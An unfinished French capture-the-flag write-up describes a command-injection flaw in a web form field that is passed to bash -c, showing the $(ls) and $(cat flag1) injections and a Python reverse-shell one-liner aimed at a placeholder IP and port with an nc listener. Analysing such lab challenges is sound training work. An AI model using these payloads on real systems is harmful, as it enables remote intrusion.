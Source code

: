 # change-racines
# Flag 1

## Recon

Information disponible:
- http://REDACTED:9090
- https://www.cheswick.com/ches/papers/berferd.pdf

Voici l'application 

![alt text](img/app.png)

Il y a un champ Ville et un boutton pour faire un refresh.

J'appuie sur le boutton avec le champ vide et j'obtiens:
```python
(b'\n', None)
```
Bon euh, j'ai clairement affaire a du python.

`None` je vais donc metttre une ville dans le champs ville:

```python
(b'PlatypusJovial\n', None)
```
Pour rire essayons ceci:
`import os; print('\n'.join(os.listdir('.')))`

```python
(b"/bin/bash: -c: line 1: syntax error near unexpected token `'\\n'.join'\n/bin/bash: -c: line 1: `echo import os; print('\\n'.join(os.listdir('.')))'\n", None)
```
Daccord.. euh `ls`?
```python
(b'ls\n', None)
```
Humm `$(ls)`
```python
(b'__pycache__ app.py bin etc flag1 get-pip.py lib lib64 python root templates usr\n', None)
```

A ben voila! `$(cat flag1)`
```python
(b'/bin/bash: line 1: cat: command not found\n\n', None)
```

Aw.. bon ok, plan B, necessairement `python` doit etre disponible et c'est envoyer a `bash -c`. Est-ce l'heure d'un reverse shell en python vous dites ma ptite dame? Mais ABSOLUMENT! https://www.revshells.com

J'ai du l'adapter un peu
```python
$(./python/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')
```

Et la je crois avoir brise le jouet... (Sur l'instance de writeups)
```python
nc -lvnp REDACTED
listening on [any] REDACTED ...

connect to [REDACTED] from (UNKNOWN) [REDACTED] REDACTED
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/python/lib/python3.9/pty.py", line 156, in spawn
    pid, master_fd = fork()
  File "/python/lib/python3.9/pty.py", line 97, in fork
    master_fd, slave_fd = openpty()
  File "/python/lib/python3.9/pty.py", line 30, in openpty
    master_fd, slave_name = _open_terminal()
  File "/python/lib/python3.9/pty.py", line 60, in _open_terminal
    raise OSError('out of pty devices')
OSError: out of pty devices
```
Oh ... 

Bon c'est peut-etre pas le temps de faire des challenges de reverse shell!

On peut decouvrir que les binaires possible d'utilise sont
`bash ls rm touch` et bien entendue python!
On se rend egalement compte que nous somme dans un `chroot`
Le concept etait de memoire de cree un nouveau `chroot` dans un dossier ou nous somme presentement a l'exterieur via l'executable python

Si l'instance se fait corriger je le terminerai! Pour le moment ma memoire de poisson mort ne se souvient plus!
